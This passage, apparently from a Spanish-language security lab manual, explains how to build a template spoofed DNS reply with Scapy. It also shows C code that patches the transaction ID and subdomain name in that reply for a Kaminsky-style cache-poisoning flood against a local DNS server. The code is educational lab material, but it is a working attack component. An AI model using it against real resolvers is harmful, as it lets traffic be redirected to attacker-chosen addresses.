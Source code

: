 \begin{lstlisting}[caption={\texttt{generate\_dns\_reply.py}}]
#!/usr/bin/env python3
from scapy.all import *

# Construct the DNS header and payload
name   = 'twysw.example.com'
Qdsec  = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.1.2.2', ttl=259200)
dns    = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
             qdcount=1, ancount=1, nscount=0, arcount=0, 
             qd=Qdsec, an=Anssec)

# Construct the IP, UDP headers, and the entire packet
ip  = IP(dst='10.0.2.7', src='1.2.3.4', chksum=0)
udp = UDP(dport=33333, sport=53, chksum=0)
pkt = ip/udp/dns

# Save the packet to a file
with open('ip.bin', 'wb') as f:
  f.write(bytes(pkt))
\end{lstlisting}

En el programa en C, cargamos este paquete desde un archivo llamado  \texttt{ip.bin} y lo usamos como nuestro paquete planilla (template), a partir del mismo crearemos varios paquetes similares y haremos un flood con estos paquetes spoofeados de respuesta al servidor de DNS local.
Por cada respuesta, debemos de cambiar tres lugares: el ID de transacción y el nombre \texttt{twysw} que aparece en dos lugares (la sección Question y la sección Answer). El ID de transacción siempre se encuentra en el mismo lugar (offset \texttt{28} a partir del comienzo de nuestro paquete IP), pero el offset para el nombre \texttt{twysw} depende de la longitud del nombre de dominio. Podemos usar un editor binario como \texttt{bless} para visualizar el archivo binario \texttt{ip.bin} y encontrar los dos offsets donde se encuentra la cadena \texttt{twysw}. En nuestro paquete se encuentran en los offsets \texttt{41} y \texttt{64}.

El siguiente fragmento de código muestra hacer los cambios en esos campos. Cambiamos el nombre en nuestra respuesta a \texttt{bbbbb.example.com} y enviamos una respuesta DNS spoofeada con el ID de transacción que es \texttt{1000}. En este código la variable  \texttt{ip} apunta al comienzo del paquete IP.

\begin{lstlisting}
  // Modify the name in the question field (offset=41)
  memcpy(ip+41, "bbbbb" , 5);

  // Modify the name in the answer field (offset=64)
  memcpy(ip+64, "bbbbb" , 5);

  // Modify the transaction ID field (offset=28)
  unsigned short id = 1000;
  unsigned short id_net_order = htons(id);
  memcpy(ip+28, &id_net_order, 2);
\end{lstlisting}



